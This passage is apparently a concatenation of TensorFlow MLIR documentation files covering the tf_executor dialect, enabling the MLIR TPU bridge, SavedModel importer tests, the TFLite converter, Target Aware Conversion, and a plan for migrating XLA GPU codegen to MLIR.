in its body: the `tf_executor.graph` verifier will reject any unknown operation.
In order to execute standard `tf` dialect operations (like `tf.Add`) they must
be wrapped in the `tf_executor.island` operation.

The `tf_executor.graph` operation does not accept any operands, inputs are
implicitly captured by the region, representing the feeds to the graph.

The region attached to `tf_executor.graph` is terminated by a
`tf_executor.fetch` operation. The non-control operands of the terminator
correspond to the result values (or fetches) of the `tf_executor.graph`
operation. The behavior is undefined if any of the operands of the
`tf_executor.fetch` is dead.

```mlir {.mlir}
%fetches = tf_executor.graph : tensor<*xf32> {
  // Operations in the current block execute when their inputs are ready,
  // possibly concurrently.
  // Only operations in the tf_executor dialect are expected here.
  // Ops can return multiple outputs and a control token for control
  // dependencies.
  // We don’t mention the control token in the return type here, it is implicit.
  %0, %ctl0 = tf_executor.opA %feed#0, %feed#1 : tensor<*xf32>
  %1, %ctl1 = tf_executor.opB : tensor<*xf32>
  %2, %ctl2 = tf_executor.opC %1, %ctl0 : tensor<*xf32>
  %3, %ctl3 = tf_executor.opD %2 : tensor<*xf32>
  tf_executor.fetch %3 : tensor<*xf32>
} // end of the “tf_executor.graph" operation/region
```

### ‘tf_executor.island’ Operation

The `tf_executor.graph` operation does not allow `tf` dialect operations to be
immediately nested underneath it. The `tf_executor.island` is introduced as a
wrapper for general computation (for example, all the `tf` dialect operations):
this results in a more consistent representation which makes analysis and
transformation simpler.

The `tf_executor.island` operation has a single region with a single block
attached (only functional control flow is allowed). The block is terminated by a
`tf_executor.yield` operation. The operands of the terminator correspond to the
result values of the `tf_executor.graph` operation. An extra result of type
`!_tf_executor.control` is always produced by every `tf_executor.island`.

Within an island, execution semantics follow standard sequential behavior
consistent with the direction of TensorFlow 2.0 and autograph, and desirable for
compiler analyses and transformations. Values in an island can’t be dead. Other
nested `tf_executor.graph` operations can be present in the region (or called
functions) to re-enable the TensorFlow executor behavior for a subsection of the
code. This is important for the following reasons:

*   Initially the functional control flow operations are calling functions
    involving nested graphs, if `tf_executor.graph` weren’t allowed in an
    island, these operations would need to have an equivalent in the
    `tf_executor` dialect.
*   Nesting also allows to form islands without involving inter-procedural
    analyzes: any function call may involve a callee with a graph.

The `tf_executor.island` region allows implicit capture. If any value captured
by a `tf_executor.island` is dead, the whole region does not execute and every
produced value is marked as dead as well.

An arbitrary number of `tf_executor.control` operands are accepted by a
`tf_executor.island` operation. If any operand is dead, the region is not
executed and dead values are immediately returned for every result.

```mlir {.mlir}
// The island is capturing implicitly %0 and %1. It is also taking a control
// dependency %ctl0 as input. It produces a tensor<*xf32> value matching the
// argument of the yield terminator, as well as an extra control token.
%2, %ctl2 = tf_executor.island (%ctl0)
                  : (tensor<*xf32>, !tf_executor<"control">) -> tensor<*xf32> {
  %added = tf.Add %1, %0 : tensor<*xf32>
  %mul = tf.Mul %added, %1 :tensor<*xf32>

  // The yield terminator operands are the result values of the island.
  tf_executor.yield %mul : tensor<*xf32>
}
```

The case where a single operation is wrapped inside an island can even be
compressed by inferring the terminator to be the returned value of the
operation. The example above if it only contained the addition with implicit
capture would be displayed as:

```mlir {.mlir}
%2, %ctl2 = tf_executor.island(%ctl0) wraps tf.Add %1, %0 : tensor<*xf32>
```

### `tf_executor.Switch` Operation

[`tf_executor.Switch`](https://www.tensorflow.org/api_docs/cc/class/tensorflow/ops/switch):
takes two inputs,`predicate`and`data`and returns two regular
outputs,`true_output`,`false_output`. The`data`input is copied
to`true_output`if`predicate`evaluates to true otherwise it is copied
to`false_output`. The other output is marked as dead. If one of the inputs or a
control token is dead, then all of the outputs are marked as dead as well.

### `tf_executor.SwitchN` Operation

[`tf_executor.SwitchN`](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/core/ops/control_flow_ops.cc#L49-L53):
takes two inputs,`data`and`index`and an integer attribute`num_outs`indicating
the number of outputs. The`data`input is copied to output indicated by
the`index` input. The other outputs are marked as dead. If one of the inputs or
a control token is dead, then all of the outputs are marked as dead as well.

### `tf_executor.Merge` Operation

[`tf_executor.Merge`](https://www.tensorflow.org/api_docs/cc/class/tensorflow/ops/merge):
takes a variadic number of inputs, and returns a single output. The output is
defined as a non-dead input (selected in a non-defined way if multiple inputs
are non-dead). If all inputs are dead, the output is also dead.

### NextIteration: `tf_executor.NextIteration.Source` and `tf_executor.NextIteration.Sink` Operation

The TensorFlow
[`NextIteration`](https://www.tensorflow.org/api_docs/cc/class/tensorflow/ops/next-iteration)
op is modeled using these two paired operations. Since _NextIteration_ is
intended for modeling the loop back-edges, breaking it in two different
operations allows to keep a structural
DAG.`tf_executor.NextIteration.Source`does not take any operand and produces two
results: one regular value corresponding to the TensorFlow graph, and a second
value of type`tf_executor.loop_token`. This token is consumed by the
paired`tf_executor.NextIteration.Sink`Operation alongside the value that is
passed through the back-edge. No value is returned
by`tf_executor.NextIteration.Sink`. The type of the result of the source must
match the type of the value operand of the sink.

`tf_executor.NextIteration.Source` is an exception in the executor model in the
sense that it executes after the paired `tf_executor.NextIteration.Sink` even
though there is no data dependency between them.

### `tf_executor.LoopCond` Operation

[`tf_executor.LoopCond`](https://www.tensorflow.org/api_docs/cc/class/tensorflow/ops/loop-cond):
forwards its boolean input to its output,
[it acts as`pivot` for marking the loop termination condition](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/core/kernels/control_flow_ops.h#L115-L118).

### `tf_executor.Enter` Operation

[`tf_executor.Enter`](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/core/kernels/control_flow_ops.h##77-L79):
takes a single input and a`name` string attribute that identifies the execution
frame. It forwards its input to its output in the new execution frame.

### `tf_executor.Exit` Operation

[`tf_executor.Exit`](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/core/kernels/control_flow_ops.h#L90-L92):
forwards its single input to its output, exiting the current execution frame.

### `tf_executor.ControlTrigger` Operation

[`tf_executor.ControlTrigger`](https://www.tensorflow.org/api_docs/cc/class/tensorflow/ops/control-trigger):
it is similar to
[a no-op](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/core/kernels/control_flow_ops.h#L23-L26)
that acts as a placeholder for control dependencies. It always produces a live
control output even when some control inputs are dead.

### `tf_executor.Send` Operation

[`tf_executor.Send`](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/core/kernels/sendrecv_ops.h#L24):
matches TensorFlow semantics.

### `tf_executor.Recv` Operation

[`tf_executor.Recv`](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/core/kernels/sendrecv_ops.h#L37):
matches TensorFlow semantics.

## Example

Below is an example of a loop decrementing an initial `%_count.init` integer
until it reaches 0 and returns the last value in the loop.

```mlir {.mlir}
// Loop `%count.init` times and return the last counter (always zero)
%fetches = tf_executor.graph {

  %loop.init, %ctl0 = tf_executor.Enter %count.init : i32

  %next_count, %tok = tf_executor.NextIteration.Source : i32

  %loop.body.init, %ctlMerge = tf_executor.Merge %loop.init, %next_count : i32

  %dec_count, %ctlAdd = tf_executor.island
    wraps tf.Add %loop.body.init, -1 : (i32, i32) -> i32

  %loop_cond, %ctlNE = tf_executor.island
    wraps tf.NotEqual %dec_count, 0 : (i32, i32) -> i1

  %true, %false, %ctlSwitch = tf_executor.Switch %loop_cond, %dec_count  : i32

  tf_executor.NextIteration.Sink[%tok] %false : i32

  %exit_count, %ctlExit = tf_executor.Exit %true : i32

  tf_executor.fetch %exit_count : i32
} // end of the "tf_executor.graph" operation/region
```
# Enable MLIR-Based new TPU Bridge

**MLIR-Based new TPU Bridge is an experimental feature, tread lightly.**

## For TF 1.x-Based Models

In tf.ConfigProto.Experimental, there is a knob controlling whether the new TPU
Bridge is enabled or not. You can set it by using the following example code:

```
session_config = tf.ConfigProto(
  ......
  experimental=tf.ConfigProto.Experimental(
    enable_mlir_bridge=True,
  ),
  ......
)
```

## For TF 2.x-Based Models

Sessions and Session Configs are no longer available in TF 2.x. Instead, there
is a global **Context** that holds all the equivalences. You can manipulate the
**Context** with following code. Note that it must be added early in your
program (at least before any of your model computation).

```
tf.config.experimental.enable_mlir_bridge()
```

## How to disable the old TPU bridge?

Due to how TPU bridges are designed to work, you don't actually need to disable
the old bridge as they would not interfere with each other.

# SavedModel importer FileCheck tests.

## Debugging tests

While debugging tests, the following commands are handy.

Run FileCheck test:

```
bazel run :foo.py.test
```

Run just the Python file and look at the output:

```
bazel run :foo
```

Generate saved model to inspect proto:

```
bazel run :foo -- --save_model_path=/tmp/my.saved_model
# Inspect /tmp/my.saved_model/saved_model.pb
```

## Rationale for Python-based tests

For a SavedModel importer, the natural place to start is to feed in the
SavedModel format directly and test the output MLIR. We don't do that though.

The SavedModel format is a directory structure which contains a SavedModel proto
and some other stuff (mostly binary files of some sort) in it. That makes it not
suitable for use as a test input, since it is not human-readable. Even just the
text proto for the SavedModel proto is difficult to use as a test input, since a
small piece of Python code (e.g. just a tf.Add) generates thousands of lines of
text proto.

That points to a solution though: write our tests starting from the Python API's
that generate the SavedModel. That leads to very compact test inputs.

As the SavedModel work progresses, it's likely to be of interest to find a
shortcut between the Python `tf.Module` and the SavedModel MLIR representation
that doesn't involve serializing a SavedModel to disk and reading it back.

## Potential improvements

The test iteration cycle for these tests is very long (usually over a minute).
We need to find a way to improve this in the future.
# The new MLIR based TensorFlow to TensorFlow Lite converter

This directory contains:

1.  [MLIR](https://github.com/llvm/llvm-project/tree/main/mlir) dialects,
    transformation passes and utilities for TensorFlow Lite.

## API:

The API for converting TensorFlow models to TensorFlow Lite will be through
`tf.lite.TFLiteConverter`. All the conversion code is open sourced, and
the API will be integrated soon.

### The conversion process from TensorFlow to TensorFlow Lite includes the
following major passes:

- Import from GraphDef, in .pb or .pbtxt  format, into MLIR.
- Raise to Control-flow-graph. Converts TF Control Flow dialect to TF dialect.
- The Canonicalization pass iteratively applies canonicalization
transformations in a greedy way until no further changes occur.
Canonicalization includes constant folding.
- The Legalize pass converts TensorFlow operations to TensorFlow Lite
ones. The operations that cannot be mapped to TensorFlow Lite dialect
are left as TensorFlow operations. Unsupported op handling follows the
proposed TFLite mechanism.
- Optimizations are performed in both the TF & TFLite dialect; aiming for small
size and high performance (among the core value proposition of
TensorFlow Lite models).
- The Export pass writes out TensorFlow Lite FlatBuffer format. This pass
operates on MLIR TensorFlow Lite dialect and is simple/direct translation.

See
https://github.com/tensorflow/tensorflow/blob/master/tensorflow/compiler/mlir/lite/tf_tfl_passes.cc
for the full list of MLIR passes for conversion from TensorFlow to TensorFlow
Lite.
# Target Aware Conversion (TAC)

Different hardwares have different capabilities and restrictions.

TAC is designed to leverage hardwares' capabilities to:

*   Perform device-specific optimizations (such as unsupported ops lowering,
    layout transformations, etc.)
*   Graph partitioning based on the hardware costs modeling.
*   It supports general import/export where you can hook your own
    importer/exporter from any format to MLIR and export MLIR to anything.

For more details, please checkout the
[TAC workflow](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/compiler/mlir/lite/experimental/tac/README.md#tac-workflow)
section

## How to use

Once you have a converted TfLite model ready, you can use the following command
to use TAC to optimize for your model:

```
bazel run -c opt //tensorflow/compiler/mlir/lite/experimental/tac:tac-translate -- <PATH_TO_YOUR_MODEL> -o=<OUTPUT_PATH> -device-specs=<HARDWARE_BACKENDS>
```

The devices_specs is a list of the names of the desired hardware backends,
separated by comma, e.g., "GPU,CPU".

If you're interested in what are the subgraphs being explored for different
backends, you can pass in `-output-mlir -inline-subgraphs=false` and check out
the output mlir file.

## How to add a hardware backend

If you want to add a hardware backend for TAC, you can start with the
`SimpleHardware` interface.

For example:

```
class FooHardware : public SimpleHardware {
 public:
  static constexpr char kId[] = "FOO";

  mlir::RewritePatternSet GetTransformations(
      MLIRContext* context) const override {
    mlir::RewritePatternSet patterns;
    // Pick the transformations that we want to perform,
    // We can add other transformations we like here.
    patterns.insert<LowerPackIntoConcatReshape, UnrollSplit, UnrollSplitV,
                  PadSlice>(context);
    return patterns;
  }

  mlir::TypeID GetTypeId() const override {
    return mlir::TypeID::get<FooHardware>();
  }

  // We can specify what ops are not supported here.
  bool IsNotSupportedOp(mlir::Operation* op) const override { return false; }

  // This is basically saying how fast are we comparing to CPU.
  // The larger the value the better.
  float AdvantageOverCPU() const override { return 5.0; }
};
```

Then we need to register our hardware like below:

```
std::unique_ptr<TargetHardware> CreateFooHardware() {
  return std::make_unique<FooHardware>();
}

TargetHardwareRegistration<FooHardware> foo_hardware(
    "Target device for FOO", CreateFooHardware);
```

### Advanced user

For advanced users (e.g., you may already have your own hardware dialect
defined), please just use `TargetHardware` directly. See the following code
snippet for reference.

```
class MyCustomHardware : public TargetHardware {
 public:
  static constexpr char kId[] = "MY_CUSTOM_HARDWARE";

  mlir::TypeID GetTypeId() const override {
    return mlir::TypeID::get<MyCustomHardware>();
  }
  
  bool IsOpSupported(mlir::Operation* op) const override {
    // check whether the op is supported, if the user has they own dialect,
    // this can be target dialect legalization process.
  }
  
 double GetHardwareSwitchingCost(const TargetHardware* from,
                                 size_t buffer_size) const override {
    // Get the hardware switching cost from the source hardware.
 }

  double GetOpCost(mlir::Operation* op) const override {
    // call customized cost model.
  }
  
  mlir::RewritePatternSet GetTransformations(
      MLIRContext* context) const override {
    // customized transformations patterns: ops lowering/fusion, layout
    // transformation, etc.
  }
};
```

## TAC workflow

The workflow of target-aware-conversion is as followed:

1  Try to break down the whole graph into several subgraphs based on
    hardwares' capabilites. See the diagram below, let's say our desired target
    backends are "GPU" and "CPU", and currently "C" is not supported on "GPU",
    but the rest are supported by "GPU". So we will end up with 3 subgraphs as
    shown in the diagram.
    


2  Perform ops-lowering & target-specific optimizations for
    different hardware backends. As shown in the below diagram, the red & the
    yellow subgraph will be duplicated as "alternative subgraph view" for "CPU".
    "C" op can be lowered into "G" + "H" op which can be supported by "GPU".
    


3  Estimate the costs for each subgraph (and their alternative views)
    based on the hardware cost model. See the following diagram.
    


4  Pick the proper subgraphs from the alternatview views for execution
    based on costs(computation costs, transfer costs, quant/dequant costs).
    As shown in the diagram below, since cross-device data transferring cost is
    high, even "G" + "H" running on GPU maybe less efficient than "C" running on
    "CPU", we will still pick "G" + "H" subgraph.


The final graph looks like below:


## TAC components

### Hardwares

Hardwares are used to modeling target device capabilities & also ops cost for
the target devices.

We have already modeled `cpu_hardware` & `gpu_hardware` as well as the
`nnapi_hardware`.

### Passes

#### Target Annotation Pass
In this pass, every op will be targeted with the user specified targets based on
the device capabilites. For example, If the user specified the desired targets
are "GPU", "CPU", `conv2d` can run on both "GPU" and "CPU", we will annotate
the op `conv2d` with "GPU" since it's preferred; `pack` can only run on "CPU",
so we will annotate the op with "CPU" since "GPU" does not support this op.

#### Raise Target Subgraphs Pass

In this pass, ops will be broken down into subgraph. Those ops have the same
target annotation will be raised as subgraphs.

In this pass, subgraph is actually implemented with `FuncOp`.

Take the following code as an example:

```
func @simpleTest(%arg0: tensor<1xf32>, %arg1: tensor<1xf32>, %arg2: tensor<1xf32>, %arg3: tensor<1xf32>) -> tensor<2x1xf32> {
  %0 = "tfl.add"(%arg0, %arg1) {tac.device = "GPU", fused_activation_function = "RELU6", tac.inference_type = "FLOAT"} : (tensor<1xf32>, tensor<1xf32>) -> tensor<1xf32>
  %1 = "tfl.mul"(%0, %arg2) {tac.device = "GPU", fused_activation_function = "RELU6", tac.inference_type = "FLOAT"} : (tensor<1xf32>, tensor<1xf32>) -> tensor<1xf32>
  %2 = "tfl.add"(%arg0, %arg3) {tac.device = "GPU", fused_activation_function = "RELU6", tac.inference_type = "FLOAT"} : (tensor<1xf32>, tensor<1xf32>) -> tensor<1xf32>
  %3 = "tfl.pack"(%1, %2) {tac.device = "CPU", tac.inference_type = "FLOAT", axis = 0 : i32, values_count = 2 : i32} : (tensor<1xf32>, tensor<1xf32>) -> tensor<2x1xf32>
  return %3 : tensor<2x1xf32>
}
```

In this code, `%3` is annotated with "CPU", while others are annotated with
"GPU", in this case, `%3` will be raised as a separate function like below:

```
 func private @func_1_GPU_FLOAT(%arg0: tensor<1xf32>, %arg1: tensor<1xf32>) -> tensor<1xf32> attributes {tac.device = "GPU", tac.inference_type = "FLOAT", tac.interface_name = "func_1"} {
    %0 = tfl.add %arg0, %arg1 {fused_activation_function = "RELU6", tac.device = "GPU", tac.inference_type = "FLOAT"} : tensor<1xf32>
    return %0 : tensor<1xf32>
  }
```

And the rest ops will be raised as below:

```
 func private @func_2_CPU_FLOAT(%arg0: tensor<1xf32>, %arg1: tensor<1xf32>) -> tensor<2x1xf32> attributes {tac.device = "CPU", tac.inference_type = "FLOAT", tac.interface_name = "func_2"} {
    %0 = "tfl.pack"(%arg0, %arg1) {axis = 0 : i32, tac.device = "CPU", tac.inference_type = "FLOAT", values_count = 2 : i32} : (tensor<1xf32>, tensor<1xf32>) -> tensor<2x1xf32>
    return %0 : tensor<2x1xf32>
  }

func private @func_0_GPU_FLOAT(%arg0: tensor<1xf32>, %arg1: tensor<1xf32>, %arg2: tensor<1xf32>) -> tensor<1xf32> attributes {tac.device = "GPU", tac.inference_type = "FLOAT", tac.interface_name = "func_0"} {
    %0 = tfl.add %arg0, %arg1 {fused_activation_function = "RELU6", tac.device = "GPU", tac.inference_type = "FLOAT"} : tensor<1xf32>
    %1 = tfl.mul %0, %arg2 {fused_activation_function = "RELU6", tac.device = "GPU", tac.inference_type = "FLOAT"} : tensor<1xf32>
    return %1 : tensor<1xf32>
  }
```

And the original function will be replaced by `CallOps` to those `FuncOps`:

```
func @simpleTest(%arg0: tensor<1xf32>, %arg1: tensor<1xf32>, %arg2: tensor<1xf32>, %arg3: tensor<1xf32>) -> tensor<2x1xf32> {
    %0 = call @func_0_GPU_FLOAT(%arg0, %arg1, %arg2) {tac.device = "GPU", tac.inference_type = "FLOAT", tac.interface_name = "func_0"} : (tensor<1xf32>, tensor<1xf32>, tensor<1xf32>) -> tensor<1xf32>
    %1 = call @func_1_GPU_FLOAT(%arg0, %arg3) {tac.device = "GPU", tac.inference_type = "FLOAT", tac.interface_name = "func_1"} : (tensor<1xf32>, tensor<1xf32>) -> tensor<1xf32>
    %2 = call @func_2_CPU_FLOAT(%0, %1) {tac.device = "CPU", tac.inference_type = "FLOAT", tac.interface_name = "func_2"} : (tensor<1xf32>, tensor<1xf32>) -> tensor<2x1xf32>
    return %2 : tensor<2x1xf32>
  }
```

Why we need to raise those ops into `FuncOps`? Please see the following section.

#### Get Alternative Subgraph View Pass
In the Get Alternative Subgraph View Pass, we will essentially duplicate those
`FuncOps` and perform unsupported ops lowering & target-specific optimization.

For example, `Pack` is not supported by "GPU", but it can be lowered into
`Concat` + `Reshape` which can be supported by "GPU".

So the original example:

```
 func private @func_1_GPU_FLOAT(%arg0: tensor<1xf32>, %arg1: tensor<1xf32>) -> tensor<1xf32> attributes {tac.device = "GPU", tac.inference_type = "FLOAT", tac.interface_name = "func_1"} {
    %0 = tfl.add %arg0, %arg1 {fused_activation_function = "RELU6", tac.device = "GPU", tac.inference_type = "FLOAT"} : tensor<1xf32>
    return %0 : tensor<1xf32>
  }
```

Will be transformed into:

```
 func private @func_2_CPU_FLOAT(%arg0: tensor<1xf32>, %arg1: tensor<1xf32>) -> tensor<2x1xf32> attributes {tac.device = "CPU", tac.inference_type = "FLOAT", tac.interface_name = "func_2"} {
    %0 = "tfl.pack"(%arg0, %arg1) {axis = 0 : i32, tac.device = "CPU", tac.inference_type = "FLOAT", values_count = 2 : i32} : (tensor<1xf32>, tensor<1xf32>) -> tensor<2x1xf32>
    return %0 : tensor<2x1xf32>
  }

func private @func_2_GPU_FLOAT(%arg0: tensor<1xf32>, %arg1: tensor<1xf32>) -> tensor<2x1xf32> attributes {tac.device = "GPU", tac.inference_type = "FLOAT", tac.interface_name = "func_2"} {
    %cst = arith.constant dense<1> : tensor<4xi32>
    %cst_0 = arith.constant dense<2> : tensor<1xi32>
    %cst_1 = arith.constant dense<[2, 1]> : tensor<2xi32>
    %0 = "tfl.reshape"(%arg0, %cst) {tac.device = "GPU", tac.inference_type = "FLOAT"} : (tensor<1xf32>, tensor<4xi32>) -> tensor<1x1x1x1xf32>
    %1 = "tfl.reshape"(%arg1, %cst) {tac.device = "GPU", tac.inference_type = "FLOAT"} : (tensor<1xf32>, tensor<4xi32>) -> tensor<1x1x1x1xf32>
    %2 = "tfl.concatenation"(%0, %1) {axis = 3 : i32, fused_activation_function = "NONE", tac.device = "GPU", tac.inference_type = "FLOAT"} : (tensor<1x1x1x1xf32>, tensor<1x1x1x1xf32>) -> tensor<1x1x1x2xf32>
    %3 = "tfl.reshape"(%2, %cst_0) {tac.device = "GPU", tac.inference_type = "FLOAT"} : (tensor<1x1x1x2xf32>, tensor<1xi32>) -> tensor<2xf32>
    %4 = "tfl.reshape"(%3, %cst_1) {tac.device = "GPU", tac.inference_type = "FLOAT"} : (tensor<2xf32>, tensor<2xi32>) -> tensor<2x1xf32>
    return %4 : tensor<2x1xf32>
  }
```

#### Compute Costs Pass
In the compute cost pass, we will essentially compute the cost of each op within
the `FuncOp` based on the target-device cost model and sum them together.


#### Pick Subgraphs Pass
In the pick subgraphs pass, we will pick those subgraphs which can minimize the
global costs (we will take the tensor transferring costs as well).
# TensorFlow MLIR

These are the docs for: https://www.tensorflow.org/mlir
# MLIR CodeGen for XLA

<!--*
# Document freshness: For more information, see go/fresh-source.
freshness: { owner: 'timshen' reviewed: '2020-06-16' }
*-->

XLA operates on `HloInstruction` and performs many optimizations on this
representation, sharing a lot of these between targeted devices. As some point a
linear schedule is computed and the memory buffer is assigned to each value
statically. The device specific codegen operates by traversing this sequence and
calling "emitters" to generate a representation suitable for the device (for
example a single LLVM function per XLA computation on CPU, or a sequence of
"thunks" encapsulating GPU operations and possibly generated PTX when targeting
GPU).

As a staging step, we're currently in the process of intercepting the process
right after XLA completes the buffer-assignment phase and emit instead an MLIR
module in the `lhlo` dialect. From there we perform the codegen using MLIR
components (Linalg, affine, and GPU dialect mainly) depending on the device.

Below is the plan of record to incrementally migrate XLA/GPU by using `lhlo` as
the codegen input.

## Tasks

|               | Host                     | Device
| ------------- | ------------------------ | ------------------------
| Input format  | HloInstruction* (Task 1) | HloInstruction* (Task 1)
| Output format | xla::Thunk (Task 2)      | LLVM IR (Task 3)

*   **Task 1** changes both host and device input format from HloInstruction* to
    LHLO.
*   **Task 2** changes output format of host from thunks to "some landing pad
    for host" (see below).
*   **Task 3** migrates device output from LLVM IR to some form of MLIR. It's
    optional to this project, and see the section "Migrating Device LLVM IR" for
    details.

This project prioritizes having end-to-end runnable models with LHLO-emitters
enabled as much as possible. This implies that the following order list of
objectives by priority:

*   Make XLA/GPU runnable with LHLO emitters, with existing Thunks and emitters
    unmodified.
*   Eliminate the references to HloInstruction\* in LHLO, case by case:
    *   Switch a legacy emitter to an MLIR-based emitter (e.g. Linalg), or
    *   Mechanically translate the existing emitter to take MLIR representation
        (migrate to Standard with GPU Dialect).

## Migrating Thunks (Task 2)

xla::gpu::Thunk is a data structure that:

*   Can be called into from the host (xla::gpu::Thunk::ExecuteOnStream()).
*   Carries various data in its subclasses.
*   Interacts with BufferAllocation::Slice and StreamExecutor.
*   Launches kernels
*   Calls into all runtime libraries.

The cost of that includes:

*   Representing op-specific configuration data (e.g. convolution configs).
*   Migrating op shape and operand shapes.
*   Representing a tree of thunks (while, condition, etc).

The migration work is independent from LHLO / emitter migration. Under limited
resources, it's prioritized behind LHLO / emitter migration.

We have several choices on how to lower the host-side part from LHLO:

*   TFRT
    *   (Pro) great CUDA and HIP wrappers for use.
    *   (Pro) easy to implement library calls (cuDNN, cuBLAS, cuFFT, etc), as
        TFRT ops are interpreted by C++ code.
    *   (Con) host side is under development and not tested.
*   Jitted CPU code
    *   (Pro) great lower-ability. Create a few loops and conditions and it's
        done.
    *   (Con) GPUDialect doesn't yet model chains/streams/asynchronicity/device
        allocation.
    *   (Con) CUDA / HIP runtime support is minimal (toolkit path, version,
        dynamic loading, etc).
*   Existing (interpreting) XLA runtime

Decision: adopt TFRT, but also support jitting CPU code in TFRT.

## Migrating Device LLVM IR (Task 3)

An elemental emitter generates target op by filling it element by element. Each
output element depends on a set of elements from the operands. All elements are
described by combining the buffer with dynamic indices. It's sufficient to
describe almost all "math" ops, but for performance reasons only a large subset
of "math" ops are implemented directly in (Cpu|Gpu)ElementalIrEmitter.

ElementalIrEmitter is unique in that:

*   A large portion of the code is shared between XLA/GPU and CPU.
*   It represents a large portion of ops seen in models, including all
    element-wise ops.
*   Most fusions solely depend on ElementalIrEmitter.
*   It's structurally simple, as it describes a data dependency DAG between op
    elements and operand elements.
*   It's mostly portable and high-level (e.g. unlike GPU kReduce and GPU kCopy).
*   Dynamic shape support is easy for at least element-wise ops.

Now, for all ops, elementally-emitted or not, there are several flavors of the
end state of each XLA op:

1.  Device code stays as LLVM IR.
1.  Refactor the old emitter to be like LHLO -> MLIR LLVM Dialect:
    *   (Cost) Will be throw-away work if we want to ultimately migrate to
        Standard.
    *   (Benefit) It is easy and mechanical. Can be done in a short period.
    *   (Benefit) It doesn't benefit more compared to (1).
1.  Refactor old emitters to be like LHLO -> MLIR GPU + Standard + Loops:
    *   (Cost) Lifting existing emitters to Standard introduces some challenges.
        Pointers and GEPs need to be converted to MemRefs and SubViews. Ensuring
        amdgpu completeness is another one.
    *   (Cost) XLA/GPU heavily relies on LLVM metadata:
        *   `range` for block/thread indices.
        *   `align`, `dereferenceable`, `invariant.load`, `alias.scope`,
            `noalias` for load/stores.
        *   `llvm.loop.unroll.disable`, `llvm.loop.unroll.full`,
            `llvm.loop.vectorize.enable` for sequential loops.
    *   (Benefit) Can be long-term. More portable.
1.  Refactor old emitters to be LHLO -> Linalg, and write new Linalg emitters
    *   (Cost) This is case by case. Compared to previous options, a new
        implementation that matches XLA's performance needs to go through the
        benchmark <-> optimize workflow, which can be a significant cost for
        some ops.
    *   (Benefit) unified stack; community support; portability; more
        optimization potentials.

Conclusions:

*   Don't go for (2). (1) or (3) are just better than (2). (2) costs more than
    (1), since it requires a lot of mechanical refactoring. With (1) we can
    still achieve the goal of enabling XLA to pick up MLIR emitters. This is by
    doing LHLO -> LLVM IR -> run legacy device emitters.
*   ElementalIrEmitter ops go for (4), but not incrementally. There is no way to
    do it op by op, because all elementally-emitted ops are connected into the
    same graph. This work can also serve as a unification point of several
    on-going forces (the kernel generator, Linalg).
*   All other ops go for (1). As a stretch goal, they might be migrated to (3)
    or (4).

## Prioritization

While all three tasks mentioned above are parallelizable, under limited
resources they have to be serialized. The prioritization focuses on visible
results for completion of each task.

The prioritization is: Task1 (LHLO for legacy emitters) > Task 2 (Thunks) > Task
3 (MLIR emitters).

By the end of Task 1, users of XLA can generate an LHLO (e.g. kernel generator)
and execute them. The compilation format will not be serializable MLIR.

By the end of Task 2, LHLO lowers to proper, serializable MLIR. This enables
offline compilation.

By the end of Task 3, all XLA emitters are MLIR-based in its implementation.

## Detailed Design

### Step 1: (Task 1) Complete LHLO and Make Legacy Emitters Take LHLO

This step makes all existing XLA/GPU emitters interact with MLIR ops. This step
is pure refactoring and NFC.

This step is mostly mechanical, but it's worth noticing the following
discrepancies between an unnested HloComputation and LHLO:

*   Each HloInstruction has direct access to its operands (a data-flow DAG). On
    contrary, each LHLO op only has access to its operand buffers (a bipartite
    between ops and buffers). LHLO ops have to go through use-def chains to
    access their operand ops.
*   Unnested legacy emitters empirically almost never access their operands. The
    only exception is kReduce.
*   Unnested legacy emitters access BufferAssignment only for getting slices,
    not for accessing aux data structures like dataflow\_analysis() or
    alias\_analysis(). llvm\_ir builds its own alias\_analysis() based on slice
    information.

The conclusion is that LHLO should fit right-in without major hassle.

### Step 2: (Optional) Profiling Support

**This step is only needed if we start to discard some of the XLA Thunk logic
(see the next step).**

Before actually turning on any MLIR-based emitters, we need profiling for
MLIR-based emitters.

Currently XLA performs its own profiling by calling into StreamExecutor's timer.
The timer under the hood inserts two events before and after a kernel launch,
and measures the sync time between these two events.

There are roughly three approaches to support profiling in MLIR:

*   Run a profiler end-to-end
*   Add a profile op for each op in LHLO, using an injected profiler.

The "end-to-end" approach is transparent to MLIR, but suffers the same problem
that makes XLA not use it in the first place: library calls collected by a
profiler (nvprof/...) can't easily relate to HLO ops. For example, cuDNN
launches multiple kernels for each HLO, and it's hard to tell which kernels
correspond to which HLO.

The "injected profiler" approach requires:

*   LHLO to take a profiler as a parameter.
*   inserting profile.start / profile.end before and after each op.
*   a pass from that lowers profile.{start,end} to a C++ implementation.

The exact profiling can't be easily done for MLIR-generated ops, since:

*   MLIR doesn't have a timer, nor it depends on TFRT / StreamExecutor.
*   MLIR doesn't easily call into C functions with complicated parameters.

### Step 3: (Task 2) Migrating Thunks

As a note, there are roughly three kinds of thunks:
*   KernelThunk, which launches a kernel.
*   Control flow thunks, which has host control flow logic (conditional, while,
    for, sequence) and launch body kernels.
*   Library thunks: cuDNN, cuBLAS, cuFFT, NCCL, etc.

The plan is:
*   Make Thunks (de)serializable.
*   Help improve TFRT to a state where it can support these semantics.
*   As the state improves, migrate individual thunks incrementally.

These action items are only partially ordered. The actual execution order /
engineering parallelism is to be evaluated as it goes.

### Step 4: (Task 3) Migrated ElementalIrEmitter

Once profiling is ready, we can complete and tune all ElementalIrEmitter-based
emitters in MLIR. Then we turn them on by default, assuming that all of these
MLIR-based emitters use a single stream.

Notice that it's beneficial to migrate XLA/CPU's ElementalIrEmitter as well,
since they share a large portion of the code.

With all benchmarking and performance hunting done (TODO: define performance
parity), we turn on the new MLIR-based elemental emitter, and delete the legacy
ElementalIrEmitter.

This step also provides easy fusion transitions (nested ops) for the later
migration.

### Step 5: Multi-Stream Support or Drop

We can't delete
[some of the emitters](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/compiler/xla/service/gpu/stream_assignment.cc#L140)
until we support it in MLIR, or we drop the feature. It's a relatively large
amount of work in MLIR and a small amount of gain for XLA. We should investigate
current users of multi-stream XLA/GPU users, and try to delete this feature if
reasonable.

